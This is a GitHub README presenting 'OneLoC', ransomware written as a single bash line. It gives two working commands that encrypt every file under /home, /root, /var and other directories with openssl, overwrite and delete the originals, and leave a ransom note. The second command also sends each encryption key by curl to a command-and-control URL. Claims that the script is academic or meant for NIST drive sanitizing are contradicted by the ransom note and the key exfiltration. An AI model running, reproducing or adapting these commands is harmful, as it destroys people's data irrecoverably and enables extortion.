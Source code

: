 # Ransomware-Oner-Line - OneLoC 

This is a code for ransomware in bash script oner line. !!! PURELY FOR ACADEMICAL PURPOSES !!!  

I am not responsible in any way for the misuse of this script, this is code normally installed in any linux distribution  
that has been bundled in a way to encrypt all data using AES-CBC-256 encryption with openssl.  

This script was developed for the purpose of sanitizing physical storage drives for disposal to NIST-800-88 standard  

With great powers, great responsibilities...  

### OneLoC Code
#### One LoC: One Line Of Code

```
Ransom@OneLoC:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```

#### With Exfiltration:  
```
Ransom@OneLoC:~$ for i in $(find /home /media /mnt /opt /root /srv /tmp /var -type f); do rdc=$(mktemp -u|rev|cut -d"." -f1) && CODE=$rdc$RANDOM && curl -s -X GET https://c2.att.ck/exfilt.php?key=$CODE -k && openssl enc -aes-256-cbc -a -salt -in $i -out $i.LoC -k $(echo -n $CODE | base64 | sha256sum) && echo "OneLoC Anti-Forensic..." > $i && rm -rf $i;echo 'All your files has been encrypted by: OneLoC !' > $HOME/README.TXT;done >/dev/null 2>&1&
```   
   
   
   
  ### Code explained   
> [Explained](https://explainshell.com/explain?cmd=for+i+in+%24%28find+%2Fhome+%2Fmedia+%2Fmnt+%2Fopt+%2Froot+%2Fsrv+%2Ftmp+%2Fvar+-type+f%29%3B+do+rdc%3D%24%28mktemp+-u%7Crev%7Ccut+-d%22.%22+-f1%29+%26%26+CODE%3D%24rdc%24RANDOM+%26%26+openssl+enc+-aes-256-cbc+-a+-salt+-in+%24i+-out+%24i.LoC+-k+%24%28echo+-n+%24CODE+%7C+base64+%7C+sha256sum%29+%26%26+echo+%22OneLoC+Anti-Forensic...%22+%3E+%24i+%26%26+rm+-rf+%24i%3Becho+%27All+your+files+has+been+encrypted+by%3A+OneLoC+%21%27+%3E+%24HOME%2FREADME.TXT%3Bdone+%3E%2Fdev%2Fnull+2%3E%261%26)
